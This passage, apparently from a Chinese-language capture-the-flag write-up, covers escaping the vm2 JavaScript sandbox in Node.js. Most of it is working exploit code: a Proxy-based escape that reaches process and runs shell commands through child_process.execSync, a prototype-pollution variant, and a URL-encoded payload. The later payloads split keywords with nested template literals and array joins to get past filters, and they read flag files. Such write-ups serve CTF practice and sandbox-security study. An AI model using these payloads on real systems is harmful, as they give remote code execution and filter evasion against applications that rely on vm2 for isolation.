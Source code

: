 ```javascript
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```
```javascript
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	try{
		Buffer.from(new Proxy({}, {
			getOwnPropertyDescriptor(){
				throw f=>f.constructor("return process")();
			}
		}));
	}catch(e){
		return e(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```
这里特意使用preventExtensions函数禁止Buffer添加新的属性，而Buffer.from是往buffer对象添加属性，这就导致了异常，于是执行catch语句，返回rce语句。<br />首先TypeError是一个构造函数，其原型是Object，这里将object原型的一个值赋值成后面函数的返回值。<br />后面函数通过constructor构造一个匿名函数，用的是单参数单语句的箭头函数，返回一个对象process。<br />至此object已被污染，后面访问get_process，若某一对象没有，必定访问object的get_process方法。<br />(()=>{})能让process被当成函数执行。<br />修改以下payload：
```javascript
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proes`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();
    try{
        Object.preventExtensions(Buffer.from(`114514`)).a = 1;
    }catch(e){
        return e[`${`${`get_proes`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /f*`).toString();
    }
})()
```
这里只用前面一段，且prototype process constructor等一些关键字被过滤，可以考虑${}里面套${}拼接法绕过<br />把.的拼接变成[]引用索引，同时套多层反引号和${}，用于绕过关键字。<br />复杂一点
```javascript
/run.php?code=(()=%3E{%20TypeError[[`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`][`join`](``)][`a`]%20=%20f=%3Ef[[`c`,`o`,`n`,`s`,`t`,`r`,`u`,`c`,`t`,`o`,`r`][`join`](``)]([`r`,`e`,`t`,`u`,`r`,`n`,`%20`,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))();%20try{%20Object[`preventExtensions`](Buffer[`from`](``))[`a`]%20=%201;%20}catch(e){%20return%20e[`a`](()=%3E{})[`mainModule`][[`r`,`e`,`q`,`u`,`i`,`r`,`e`][`join`](``)]([`c`,`h`,`i`,`l`,`d`,`_`,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))[[`e`,`x`,`e`,`c`,`S`,`y`,`n`,`c`][`join`](``)](`cat+%2fflag`)[`toString`]();%20}%20})()

```
这里用[join]方法采用(``)，可将数组所有元素拼接起来，相当于无参join。<br />然后特殊字符用url编码。
<a name="pTaJh"></a>
## tips
js可以使用Error().stack查看报错信息
